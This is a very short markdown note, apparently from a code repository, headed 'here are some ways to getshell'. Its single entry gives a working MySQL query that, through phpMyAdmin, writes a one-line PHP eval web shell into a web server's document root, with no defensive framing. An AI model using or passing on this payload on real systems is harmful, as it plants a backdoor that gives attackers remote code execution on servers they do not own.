 # here are some ways to getshell

##php
* if the site use `phpmyadmin` & you can run mysql query,then 
  ```select '<?php @eval($_POST[wooyun])?>'INTO OUTFILE 'D:/xampp/htdocs/php1nfo.php'```
